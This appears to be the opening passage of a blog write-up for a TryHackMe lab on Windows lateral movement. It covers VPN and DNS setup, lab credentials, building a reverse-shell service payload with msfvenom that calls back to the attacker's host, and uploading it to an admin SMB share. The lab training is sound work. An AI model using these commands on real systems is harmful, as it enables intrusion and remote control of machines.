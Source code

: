 ```yaml
---
layout: post
title: Lateral Movement and Pivoting
published: true
category: Lessons
system: Windows
walkthrough-type: thm
source: https://tryhackme.com/room/lateralmovementandpivoting
Description: Common techniques used to move laterally across a Windows network.
---
```


* * * 

# Introduction

Connecting via VPN. 

- `sudo openvpn --config ~/Downloads/62836ffc2c1677004856943b-lateralmovementandpivoting.ovpn --daemon`

Edit DNS Config `/etc/resolv.conf`

```
# Generated by NetworkManager
# search hitronhub.home
# nameserver 192.168.0.1

# Added
search cyber.range za.tryhackme.com
nameserver 10.200.51.101 
nameserver 10.0.0.1
# Shorten name resolution timeouts to 1 second
options timeout:1
# Only attempt to resolve a hostname 2 times
options attempts:2
```

Get creds so we can ssh in

Your credentials have been generated: Username: arthur.campbell Password: Pksp9395

- `ssh za\\arthur.campbell@thmjmp2.za.tryhackme.com`

We also have the following information to complete the exercise:

```
User: ZA.TRYHACKME.COM\t1_leonard.summers
Password: EZpass4ever
```

Instructed to create a service payload to upload.

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.50.49.50 LPORT=8945 -f exe-service -o 0xskar-service.exe`

And upload the service to the smb admin share

- `smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever`



